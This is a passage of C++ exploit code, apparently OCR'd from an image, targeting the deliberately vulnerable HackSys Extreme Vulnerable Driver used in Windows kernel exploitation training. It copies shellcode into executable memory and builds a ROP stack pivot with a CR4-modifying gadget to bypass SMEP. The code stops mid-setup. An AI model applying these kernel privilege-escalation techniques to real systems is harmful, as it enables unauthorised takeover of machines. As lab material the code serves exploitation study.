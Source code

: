 ```cpp
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff
};

QWORD getBaseAddr(LPCWSTR drvName) {
    LPVOID drivers[512];
    DWORD cbNeeded;
    int nDrivers, i = 0;
    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
        WCHAR szDrivers[512];
        nDrivers = cbNeeded / sizeof(drivers[0]);
        for (i = 0; i < nDrivers; i++) {
            if (GetDeviceDriverBaseName(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
                if (wcscmp(szDrivers, drvName) == 0) {
                    return (QWORD)drivers[i];
                }
            }
        }
    }
    return 0;
}

typedef struct _UserObject {
    ULONG_PTR ObjectID;
    ULONG_PTR ObjectType;
} UserObject;

int main() {
    HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }

    LPVOID shellcode = VirtualAlloc(NULL, 256, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    RtlCopyMemory(shellcode, sc, 256);

    QWORD ntBase = getBaseAddr(L"ntoskrnl.exe");
    QWORD STACK_PIVOT_ADDR = 0x48000000;
    QWORD STACK_PIVOT_GADGET = ntBase + 0x317f70; // mov esp, 0x48000000; add esp, 0x28; ret; 
    QWORD POP_RCX = ntBase + 0x20a386;
    QWORD MOV_CR4_RCX = ntBase + 0x3acd47;
    int index = 0;

    QWORD stackAddr = STACK_PIVOT_ADDR - 0x1000;
    LPVOID kernelStack = VirtualAlloc((LPVOID)stackAddr, 0x14000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!VirtualLock(kernelStack, 0x14000)) {
        printf("Error using VirtualLock: %d\n", GetLastError());
    }

    RtlFillMemory((LPVOID)STACK_PIVOT_ADDR, 0x28, '\x41');
```